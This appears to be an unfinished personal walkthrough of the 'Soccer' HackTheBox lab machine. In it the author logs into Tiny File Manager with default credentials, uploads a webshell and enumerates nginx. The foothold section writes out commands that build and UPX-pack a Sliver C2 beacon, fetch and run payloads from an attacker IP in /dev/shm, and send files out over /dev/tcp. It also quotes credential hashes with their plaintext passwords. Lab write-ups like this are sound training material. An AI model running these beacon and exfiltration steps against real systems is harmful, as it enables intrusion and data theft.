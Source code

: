 # Soccer Writeup

Name: Soccer
Date:  13/06/2023
Difficulty:  Easy
Goals:  

Learnt:
- Try harder ... 
Beyond Root
- Research WAF, Nginx
- Use sliver `portfwd` 

Content Discovery - kicking your balls since the [[Bart-Writeup]]. 2022
![](kickingyourballs.png)

The recon for this box was mostly done on a bad day in 28th March  . Over my lunch I facepalmed very as I thought that I might turn this into a Help-Through to go along with my current finish all the CREST machines while I build momentum. Instead I realised the issue very quickly I had given up on a 301 status code out of having a bad day. So I saw up to the login and thought that is just one self humiliation for the road. This box needs to be completed.

I changed all the ttl in this Repository to TTL as I bothered me.
```bash
find . -type f -name *-Writeup.md | xargs -I {} sed -i 's/ttl/TTL/g' {}
```

If I require the any hints or Writeups I will turn this to a Helped-Through my gut feeling is that in maybe 10 or more boxes and a season of ranked I am going to on the path of solving boxes for breakfast. 

## Recon

The time to live(TTL) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](OS-ProvingGrounds/Apex/Screenshots/ping.png)

I seemed concerned by a WAF and created a reading list for the Beyond root section along with Nginxc 
![](possiblewaf.png)

I found the endpoint I just must have had a bad day or something got in the way.
![](meansredirect.png)

And there is further indication that this is the path as we had an upload. Maybe I looked at gobuster presumed that 301 was off limits but feroxbuster found the 200 because it is recursive. Another nailed again the use and check both argument.  
![](thereisalsoanuploaddirectory.png)

![](300theysay.png)

Unvisited - [heroku](https://elements.heroku.com/buttons/skmdimtiaj/tinyfilemanager) Default username/_password_: _admin_/_admin_@123 and user/12345


![](defaultpassword.png)

![](uploadthewebshelltime.png)

## File upload as Website Admin account

Changing directory to upload to a directory we can write to
![](uploadhere.png)

The better place is full controllable directory and actually changing the permission so that it executes
![](betterplaceisthemonkeyplace.png)

![](404monkeyislanding.png)

## Foothold

With a webshell foothold:
![](monkeylandsinFOOTBALL.png)

Silver for the beyond root...
```go
mtls -L 10.10.14.106 -l 6969
generate beacon --mtls 10.10.14.106:6969 --arch amd64 --os linux --save /home/kali/Soccer/
upx CONFUSED_FIGURINE
```

Commands ran
```bash
# Persistence and automatic exfiltrating recon while i manually enumerate box
mount | grep shm
which curl
cd /dev/shm
curl http://10.10.14.106:8443/linpeas.sh -o linpeas.sh
curl http://10.10.14.106:8443/CONFUSED_FIGURINE -o CONFUSED_FIGURINE
chmod *
nohup bash -c "./linpeas.sh 1> /dev/tcp/10.10.14.106/6996" &
# on kali
# nc -lvnp 6698 > linpeas.out 
nohup ./CONFUSED_FIGURINE &
# Back to the shadow sysadmin
nohup bash -c "cat tinyfilemanager.php > /dev/tcp/10.10.14.106/6996" &
```

From the tiny file manager for the trinkets
`'admin' => '$2y$10$/K.hjNr84lLNDt8fTXjoI.DBp6PpeyoJ.mGwrrLuCZfAwfSAGqhOW', //admin@123`
`'user' => '$2y$10$Fg6Dz8oH9fPoZ2jJan5tZuv6Z4Kp7avtQ9bDfrdRntXtPeiMAZyGO' //12345`

There are soc-player.soccer.htb
![](etchosts.png)

and 
![1080](weirdportsonlocalhost.png)



![](playerisnotmuch.png)

## Back to burp

![](morepages.png)

Signing up will grant tickets
![](getthetickets.png)


Created an account called admin1 and signed in as well as use the previous password with the admin account from the first site.
![](webothgetthesameticket.png)
We get the same ticket...
![](somekindofjson.png)

WE are getting web socket messages, which is odd. Nuclei found that we are using express, so node.js RCE ni the json is a possible path. I decided to enumerate to find this soc-player as a directory 

/etc/nginx contains
- sites-available 

![](proxyon3000.png)

[Hacktricks -nginx](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/nginx)


https://github.com/stark0de/nginxpwner has a docker image
```bash
git clone https://github.com/stark0de/nginxpwner
cd nginxpwner
sudo docker build -t nginxpwner:latest .
# Run
sudo docker run -it nginxpwner:latest /bin/bash
```
There is  also [gixy](https://github.com/yandex/gixy), but given Kali 3.X and python and this is also not a maintained Kali package I would recommend the above.

```bash
www-data@soccer:/etc/nginx$ cat nginx.conf > /dev/tcp/10.10.14.106/6996
```

DevOps Cheatsheats!
https://lzone.de/cheat-sheet/nginx


## PrivEsc


## Beyond Root

https://github.com/BishopFox/sliver/wiki/Port-Forwarding

https://www.ibm.com/docs/en/aspera-fasp-proxy/1.4?topic=proxy-forward-firewall-configuration
https://certitude.consulting/blog/en/bypassing-web-application-firewalls/
https://snyk.io/test/docker/nginx%3A1.18.0
https://github.com/lobuhi/byp4xx